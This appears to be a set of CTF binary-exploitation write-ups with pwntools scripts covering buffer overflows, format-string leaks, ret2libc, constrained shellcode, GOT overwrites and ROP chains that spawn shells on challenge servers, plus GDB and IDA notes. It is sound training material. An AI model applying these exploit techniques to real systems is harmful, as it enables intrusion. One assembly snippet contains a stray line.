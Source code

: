 
# helloworld            
 return to magic function
<details>

- return to magic function to call shell
```py
from pwn import *

context.arch="amd64"

p=process('pwn/helloworld/helloworld')

print('prepare to send attack string.')
#we can use elf to find address of helloworld
elf=ELF('pwn/helloworld/helloworld')
print("addr of helloworld is : 0x",'%x'%elf.sym['helloworld'])
p.sendafter(b'!',b'a'*(32+8)+p64(0x4011FB))#we have 32 chars, 8 is the distance to stack
#4011FB is the address of helloworld


print('we should have opened the shell by now.')
p.interactive()
```

</details>

# helloworld_again      
 return to magic function
<details>

- return to magic function to call shell, but input must start with hellowrld, and ret address must be stack aligned
```py

from pwn import *
context.arch="amd64"
p=process('./pwn/helloworld_again/helloworld_again')
elf = ELF('./pwn/helloworld_again/helloworld_again')
print("addr of helloworld is : 0x",'%x'%elf.sym['helloworld'])

#we know that char s[32] has len 32
#and that the ret addr is 8 bytes above char s[32]
# looking at the memory, we see that the lea of helloworld is at 0x401263 

#to bypass the length check and strcmp, we input the following:
pause()
p.sendline(b'helloworld\0'+b'a'*(29)+p64(0x401263 ))

#p.sendline(b'helloworld\0'+b'a'*(29)+p64(0x40125b ))#this will not work
p.interactive()
p.close()
```

</details>

# sakana                

format string+ret2 libc
<details>

- 這題防禦機制開滿，但有format string漏洞。
- use format string to leak pie base and libc base(offsets can be found with gdb info proc map)
- then ret2 libc
```py
from pwn import *

context.binary=ELF('pwn/sakana/sakana')

r=process('pwn/sakana/sakana')
output=r.recvuntil(b'~>')#stuff from banner

#the 1st payload finds canary
payload=flat([
    b'%X-'*(33+5+1)#33 is the number of words for char 264, and 5 is for the remaining registers. 1 is the canary.
])
r.sendline(b'printf')
r.sendline(payload)
output=r.recvuntil(b'~>')#stuff containing canary
#print(output)
_canary=output.decode().split('0x')[-1][:16]
#print('the canary is: 0x%s'%_canary)
_canary=int(_canary,16)
print('the canary is: 0x%x'%_canary)

#2nd payload finds the pie base
payload=flat([
    b'%X-'*(33+5+1+2)#33 is the number of words for char 264, and 5 is for the remaining registers. 1 is the canary.
    #and finally, we see that the return address to shell+37 is 2 words up
])
r.sendline(b'printf')
r.sendline(payload)
output=r.recvuntil(b'~>')
#print(output)
_shell_addr=output.decode().split('0x')[-1][:16]
#print('return address to shell+0x37: 0x%s'%_shell_addr)
_shell_addr=int(_shell_addr,16)
print('return address to shell+0x37: 0x%x'%_shell_addr)
pie_base=_shell_addr-0x17cc#this offet value is found with gdb(info proc map and stack)
print('pie base: 0x%x'%pie_base)#verified with gdb



#3rd payload finds the __libc_start_main address
payload=flat([
        b'%X-'*(33+5+1+6)#33 is the number of words for char 264, and 5 is for the remaining registers. 1 is the canary.
    #and finally, we see that the return address to shell+37 is 2s words up
     ]
)
r.sendline(b'printf')
r.sendline(payload)
output=r.recvuntil(b'~>')
#print(output)
_libc_start_main=output.decode().split('0x')[-1][:16]
#print('return address to _libc_start_main+0x243: 0x%s'%_libc_start_main)
_libc_start_main=int(_libc_start_main,16)
print('return address to _libc_start_main+0x243: 0x%x'%_libc_start_main)
libc_base=_libc_start_main-0x24083#this offet value is found with gdb(info proc map and stack)
print('updated libc address  0x%x'%libc_base)#verified with gdb

#4th payload gets the shell
#ldd pwn/sakana/sakana
#readelf -s  /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
system_addr = libc_base + 0x52290
bin_sh=libc_base+0x1b45bd#strings -a -t x pwn/sakana/libc-2.31.so | grep /bin/sh
offset=264#buffer size
_ret=0x101a+pie_base#found in binary by ropper
pop_rdi=0x00000000000023a3+pie_base#found in binary by ropper

payload=flat([
    b'a'*offset,
    _canary,
    b'a'*8,
    pop_rdi,
    bin_sh,
    _ret,
    system_addr
])
pause()
r.sendline(b'printf')
r.sendline(payload)
r.interactive()
```

</details>

# modohayaku            
shellcode

<details>

- shellcode must contain certain bytes
- 可以用pwn.asm()來拚出shell code
```py
from pwn import *

import struct

context.arch = "amd64"
elf=ELF('./modohayaku')
#p = process('./modohayaku')
r = remote('ctf.adl.tw', 10002)

payload = flat(b'\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x53\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x31\xC0\x3c\x0c\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x3c\x87\x48\xF7\xDB\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x53\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x54\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x5F\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x99\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x52\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x57\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x54\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x5E\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\xB0\x3B\x3c\x87\x3c\x87\x3c\x87\x3c\x0c\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x3c\x87\x0F\x05\x3c\x87\x3c\x87\x3c\x87\x3c\x0c') 

r.sendafter(b'!!!',payload)

#pause()

r.interactive()
```

</details>

# modomodohayaku      
shellcode
<details>

Shellcode must match certain pattern:
- every 6 bytes must start with 0xc 0x87 0x63
- shell code cannot contain 'k','i','r','t','o', NOP
- shell code must be no greater than 96 bytes

Obviously we cannot call execv bin/sh, since this contains 'i'.  
**key point**  <font color = #FF0080 > We can pass in other shell code from stdin.  </font>
 
1. We set up the registers to call syscall read, as shown below  
![alt text](./modomodohayaku/syscall_read.jpg)  
2. We set rdi to 0, since this is the file descriptor of stdin  
3. we need some address to store our input. It turns out we can use rbp, since its is opcode is just 1 byte. Thus we set rsi to rbp.
4. Set rdx to 0x20, since this is the size of our second shell code
5. Set rax to zero, since 0 is read's syscall number
6. Syscall
7. Call rbp, this executes our second payload, stored in rbp.

```py
from pwn import *



context.arch = "amd64"
elf=ELF('./pwn/modomodohayaku/modomodohayaku')
#r = process('./pwn/modomodohayaku/modomodohayaku')
r = remote('ctf.adl.tw', 10006)


#buffer has 240 bytes (30 vars*8)
#first 96 bytes cannot have 0x90, 0x6b, 0x69, 0x72, 0x74, 0x6f
                            #nop  k      i     r     t    o
#read 96 bytes into buffer
#divide the shellcode into lines of 6
#first 16 lines must start with 0xc 0x87 0x63
#we have to limit the shellcode within 96 bytes

#0x87=0b1000 0111
my_movsxd=b'\x63\xc0'#movsxd eax,eax
my_other_movsxd=b'\x63\xc1'#movsxd eax,ecx, we can use this to set eax

#print(asm("xor rdi,rdi"))#too long
#exit(0)

payload=b''
payload+=asm("or al,0x87")+my_movsxd+asm("push 0x00")#push twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("push 0x00")
payload+=asm("or al,0x87")+my_movsxd+asm("pop rdi")+asm("pop rdi")#pop twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("push rbp")+asm("push rbp")#push twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("pop rsi")+asm("pop rsi")#pop twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("push 0x20")#push twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("push 0x20")
payload+=asm("or al,0x87")+my_movsxd+asm("pop rdx")+asm("pop rdx")#pop twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("push 0x00")#pop twice to align
payload+=asm("or al,0x87")+my_movsxd+asm("push 0x00")
payload+=asm("or al,0x87")+my_movsxd+asm("pop rcx")+asm("pop rcx")#pop twice to align
payload+=asm("or al,0x87")+my_other_movsxd+asm("syscall")#use movsxd to reset eax
payload+=asm("or al,0x87")+my_movsxd+asm("call rbp")#13
payload+=asm("or al,0x87")+my_movsxd+asm("call rbp")#14
payload+=asm("or al,0x87")+my_movsxd+asm("call rbp")#15
payload+=asm("or al,0x87")+my_movsxd+asm("call rbp")#16
#print(disasm(payload))
#exit(0)
output=r.recvuntil(b'..........')#幫我撐10秒
print(output)
r.send(flat([payload]))
pause()

#the second shell code will be read from stdin to rbp, then we will call rbp, and this will get executed
second_shell_code="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
r.send(flat([second_shell_code]))
r.interactive()

 
```

</details>

# modomodomodohayaku   
- not solved
# cyberpsychosis   
got
<details>


- find libc base with showinfo
- overwrite atol's got address with libc system with edit_info
- input bin sh into buffer
- buffer gets passed into system
![alt text](./cyberpsychosis/offset_notes.jpg)
```py
from pwn import *

context.arch = "amd64"
elf=context.binary=ELF('pwn/cyberpsychosis/cyberpsychosis')

r = process('pwn/cyberpsychosis/cyberpsychosis')
#r = remote('ctf.adl.tw', 10004)

print("got.atol addrs is :%#x"%elf.got.atol)          #atol is at     0x405068
print("implants addrs is :%#x"%elf.symbols.implants)  #implants is at 0x4050e0
#elf.got.atol=elf.symbols.implants-0x78
output=r.recvuntil(b'.')#stuff from banner

#first populate the got table, (remember the GOT table will only be populated after respective functions are first called)
r.sendline(b'2')#implant stuff
sleep(0.1)
r.sendline(b'0')# at index 0
sleep(0.1)
r.sendline(b'123456789')#implant name 
sleep(0.1)
r.sendline(b'999999999')#implant value
output=r.recvuntil(b'!')#implant success!
print(output)

#we then leak the libc base with show info
r.sendline(b'1')#show implants
sleep(0.1)
output=r.recvuntil(b'idx> ')
r.sendline(b'-3')#show implant at index 0
sleep(0.1)
output=r.recvuntil(b'value: ')#recv stuff
output=r.recvuntil(b'\n')#this is the printf@GLIBC_2.2.5 
#offset of printf@GLIBC_2.2.5 is 0x61c90 from libc base(found with gdb info proc map and got)
output=int(output[:-1])#shave off \n
print("address of printf@glibc :%#x"%output) 
print("address of libc base is :%#x"%(output-0x61c90)) 
libc_base=output-0x61c90#we have our libc base
sleep(0.1)

pause()




#the 3rd payload overwrites the got table, and gets us the shell
r.sendline(b'2')#implant
r.sendline(b'-2')#this writes to the elf.got.atol

sys_addr=libc_base+0x52290

print('system addr:%#x'%sys_addr)
payload=flat([
    b'a'*8,
    sys_addr])
r.sendline(payload)
pause()
payload=flat([b'/bin/sh\0'])
r.sendline(payload)

r.interactive()


```

</details>


# Test_Subject_087      
- not solved
# project_alicization   
srand()+shellcode

<details>

- guess password using the same srand(time(0))
- input shellcode that contain all ascii bytes
```py

from pwn import *
from ctypes import *
elf=context.binary=ELF('pwn/project_alicization/project_alicization')
_lib='/lib/x86_64-linux-gnu/libc.so.6'
lib=cdll.LoadLibrary(_lib)
r=process('pwn/project_alicization/project_alicization')
output=r.recvuntil(b':')

def make_psw(plus):
    lib.srand(time_base+plus)
    s=""
    for i in range(20):
        _random_val=lib.rand()
        s+=chr(_random_val +_random_val // 0x5d * -0x5d +0x21)#'!'=0x21
    return s

time_base=lib.time(0)
passwd_list=[]
passwd_list.append(make_psw(0).encode())	#same as remote
#passwd_list.append(make_psw(1).encode())	#remote is 1 second later
#
r.sendline(b'System Call login')
output=r.recvuntil(b'Username: ')
print(output)
r.sendline(b'Quinella')
output=r.recvuntil(b'Password: ')
print(output)
r.sendline(passwd_list[0])
output=r.recvuntil(b': ')
print(output)
pause()
#[0x20,0x7e]

shellcode = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'

r.sendline(b'System Call generate shellcode element')
payload=flat([
    
    shellcode
])
r.send(payload)
output=r.recvuntil(b': ')
print(output)
r.interactive()

```

</details>

# guitar_hero           
- not solved
# how2know
shellcode

<details>

- leak the flag address with rdi
- write a shell code that compares each character of the flag, and exit upon a match
```py
import pwn
import time
pwn.context.arch = "amd64"
offset = 0x001013dc - 0x00104040
def pwn_char_by_char(ith, char_ascii):
    shellcode = pwn.asm(
    f"""
    mov rbx, qword ptr[rsp]
    sub rbx, {offset - ith}
    mov rax, qword ptr [rbx]
    cmp al, {hex(char_ascii)}
    jne $ - 0x4
    mov rax, 0x3c
    3
    xor rdi, rdi
    syscall
    """
    )
    r = pwn.remote("edu-ctf.zoolab.org", 10002)
    r.recvuntil(b"talk is cheap, show me the code")
    r.send(shellcode)
    t1 = time.time()
    try:
        r.recvall(timeout=1)
    except Exception:
        pass
    # if elapsed time smaller than 0.5: correct
    return time.time() - t1 < 0.5
flag = ""
for i in range(0, 0x30):
    print(f"Guessing {i} th char")
    for j in range(0x20, 0x7f):
        print(j, hex(j), chr(j))
        if pwn_char_by_char(i, j):
            flag += chr(j)
            print("hit", chr(j))
            break
print(flag)
```
</details>

# rop++
rop

<details>

- solution1:
    - set up rop chain to read bin/sh into bss segment
    - call syscall execv
    ```py
    import pwn

    pwn.context.log_level = "debug"
    pwn.context.arch = "amd64"

    bss_addr = 0x4c72a0 # .bss address
    mov_rsi_rax = 0x449fa5 # mov qword ptr [rsi], rax ; ret
    pop_rax = 0x447b27 # pop rax ; ret
    pop_rsi = 0x409e6e # pop rsi ; ret

    pop_rdi = 0x401e3f # pop rdi ; ret
    pop_rax_pop_rdx_pop_rbx = 0x47ed0a # pop rax ; pop rdx ; pop rbx ; ret
    syscall = 0x401bf4 # syscall

    payload = pwn.flat(
    b"A" * 40,
    pop_rax, b"/bin/sh\0", # rax <- '/bin/sh'
    pop_rsi, bss_addr, # rsi <- 0x4c72a0
    mov_rsi_rax, # [0x4c72a0] <- '/bin/sh'

    pop_rdi, bss_addr,
    pop_rsi, 0,
    pop_rax_pop_rdx_pop_rbx, 0x3b, 0, 0,
    syscall,
    )

    p = pwn.remote("edu-ctf.zoolab.org", 10003)
    p.recvuntil(b"show me rop\n> ")

    p.sendline(payload)
    p.interactive()
    ```
- solution2:
    - mov bin/sh to data segment
    - call syscall execv
    ```py
    from pwn import *

    context.arch = 'amd64'
    p = process("chal")
    #p = remote("edu-ctf.zoolab.org", 10003)

    p.recvuntil(b"show me rop\n> ")
    pop_rdi = 0x40181a
    pop_rsi = 0x40f14e
    pop_rdx = 0x40171f
    pop_rax = 0x448e67
    syscall = 0x416a54
    bss_addr = 0x4C2270

    payload = flat(
        b"A" * 40,
        pop_rdi,
        0x0,
        pop_rsi,
        bss_addr,
        pop_rdx,
        0x10,
        pop_rax,
        0x0,
        syscall,
        pop_rdi,
        bss_addr,
        pop_rsi,
        0x0,
        pop_rdx,
        0x0,
        pop_rax,
        0x3b,
        syscall
    )
    p.send(payload)
    sleep(0.1)
    p.send(b"/bin/sh")
    p.interactive()

    ```
</details>









# 筆記(GDB用法、IDA用法、Ghidra用法)

<details>

# ida usage:
1. drag binary into window
2. press f5 to see src code
3. we can press ctrl+s to see the memory addresses

# objdump usage
objdump -M intel -d ./pwn/sakana/sakana

# gdb usage
attach 8194
1. b main
2. disas main
   disas hellowrld (to see lea addr)
3. b *0x40125b 斷在關鍵位置
4. 輸入字串，觀察stack
## other
- step
- x/200gs 0x555555556042
- x/200gi <addr>
- x/5i $rsp-10	
- vmmap查看process mapping狀況
- search-pattern bin/sh
- telescope 0x7ffff7f795bd 20
- telescope $sp 200
- finish: Continue running until just after function in the selected stack frame returns. Print the returned value (if any). This command can be abbreviated as fin.
- break *main+140
# format string attack
- rdi register(in amd 64 )holds the first argument to the function
- rsi register(in amd 64 )holds the second argument to the function
- in amd 64, the arguments beyond the 7th are stored in the stack. The 1st 6 are in registers
- in format string attacks, %s treats the value on the stack or register as a pointer to some other string(maybe points to the got)
# ret2libc
- strings -a -t x pwn/sakana/libc-2.31.so | grep /bin/sh
# piebase
- we can find the pie base using gdb
- use info proc map in gdb to find libc base
# pwndbg usage
- disassemble parse_cmd
- info functions
# ropper -f pwn/sakana/sakana
- ropper -f pwn/sakana/sakana
- pop rdi is used like this:provide the address to the pop rdi gadget, then put WHAT YOU WANT TO PUT INTO THE rdi register in the next word. This will put that word into the rdi. Once you are sure that you have what you need in the registers, you call the function.(system, for example)

# pwntools
- p64:payload construct

- lib=ELF('libc.so.6')
- lib.symbols['system']
# shellcode
- shellcraft -l amd64.linux.sh:list shell codes
- msfvenom
# ldd
- finds dependencies
- ldd pwn/sakana/sakana
# readelf 找libc function offset
- readelf -s  /lib/x86_64-linux-gnu/libc.so.6 | grep "libc_start_main"
# BOA
- rbp is the base pointer, which points to the base of the current stack frame,
and rsp is the stack pointer, which points to the top of the current stack frame.
- for example, in amd64, a stack looks like this:
    - 8th parameter...
    - 7th parameter(the 1st six are on registers)
    - return address
    - rbp-->stack bottom
    - canary
    - char[64]
    - rsp-->stack top
if there is a buffer, rsp will point to it
- $sp is stack pointer
- GOT (Global Offset Table)
: GOT存著很多個一樣大小的元素，形成一個table(基本上就是array)。
每個元素都是一個指標(所以說32位元機器一個元素4個byte，64位元就是8個byte)，
指向程式所需要的變數或者是函數，也有可能是系統需要的指標。


- plt:
PLT存著很多個一樣大小的元素，形成一個table(基本上就是array)。每個元素都是一小段程式碼，
第一個元素是公共plt，負責呼叫動態鏈接器。從第二個開始每個元素分別對應到一個動態鏈接的函數，
會使用該函數所對應之GOT元素。

意思就是一個動態鏈接函數對應到一個GOT元素(指標)，一個PLT元素(執行碼)。CPU執行PLT存的程式碼，使用GOT存的指標想辦法跳到該函數
-First six arguments are in rdi, rsi, rdx, rcx, r8d, r9d
the difference between lea and mov is: mov is used to move data, lea is used to move addresses

# how to gdb attach
1. Find the process id (pid) with the ps command: $ ps -C program -o pid h pid.
2. Replace program with a file name or path to the program.
Attach GDB to this process: $ gdb program -p pid.

</details>